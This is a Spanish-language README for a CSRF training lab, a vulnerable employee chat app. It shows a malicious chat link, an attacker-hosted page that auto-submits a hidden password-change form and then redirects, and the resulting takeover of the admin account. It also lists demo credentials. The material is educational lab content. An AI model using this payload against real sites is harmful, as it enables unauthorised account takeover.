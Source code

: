 ## 🚨 Cross-Site Request Forgery (CSRF-Lab)
- Aplicación vulnerable a **Cross-Site Request Forgery (CSRF)**, un tipo de ataque que hace que un usuario realice acciones no deseadas dentro de una aplicación web que ya le ha otorgado autenticación.
- Se trata de una ataque que hace uso de la ingeniería social para conseguir que el usuario víctima en cuestión pinche en enlaces que conlleven acciones desafortunadas para él. Si además el usuario víctima tiene privilegios en el sitio web, las consecuencias pueden llegar a ser bastante más graves.
- En concreto, este laboratorio contempla un sistema de gestión de empleados en el que estos pueden intercambiar mensajes internos mediante un chat general. El vector de ataque está en que si un empleado malintencionado introduce un enlace malicioso en uno de los mensajes, otro usuario (víctima) puede clicar en él y realizar acciones involuntarias en el sistema.

Para la demostración de este escenario, empezaremos con las credenciales de uno de los empleados del sistema (simulando que se las hemos robado):

- **Usuario**: ana
- **Contraseña**: anita62&/

Inicio de sesión como el usuario "julian":

![Inicio de sesión como julian](images/user_logged.png)

Enlace malicioso escrito en el chat
```html
<a href="http://192.168.1.61/pwned.html" target="_blank">Horas trabajadas</a>
```

![Estructura del enlace malicioso](images/chat1.png)
![Enlace malicioso insertado](images/chat2.png)

Posteriormente, el atacante se pone en escucha por el puerto 80 mediante un servidor con python:

![Servidor HTTP en escucha](images/escucha.png)

Html malicioso del atacante (archivo pwned.html), disponible en el servidor del atacante:

```html
<!DOCTYPE html>
<html>
    <body>
        <form action="http://csrf-lab:5000/change-password" method="POST">
            <input type="hidden" name="new" value="pass123" />
        </form>
        <script>
            document.forms[0].submit();
            setTimeout(function() {
                window.location.href = 'http://192.168.1.60:5015/chat';
            }, 100);
        </script>
    </body>
</html>
```

Cuando la víctima pulse en el enlace del chat, esta será redirigida a este html malicioso hosteado por el atacante. Este html hará una petición de cambio de contraseña de la cuenta de la víctima y rápidamente redirigirá al usuario de nuevo al chat (pero su contraseña ya se habrá actualizado).

Después de una breve espera, observamos que un usuario ha clicado en el enlace malicioso (ha caido en la trampa):

![Recibo peticiones en el servidor](images/escucha2.png)

Probamos con todos los usuarios hasta que iniciamos sesión con el usuario admin (este fue el usuario víctima del ataque) con la nueva contraseña actualizada, "pass123". Como podemos observar, este usuarios es privilegiado en la web en relación con el resto (puede ejecutar operaciones adicionales de gestión de usuarios):

![Inicio de sesión como admin](images/admin.png)

Es importante destacar, que en este laboratorio se ha simulado que existe un administrador revisando los mensajes por detrás a través de un BOT con selenium. Básicamente está programado para que cada minuto acceda a la página del chat e interactue con los mensajes (como lo haría un usuario real en una web de estas características).
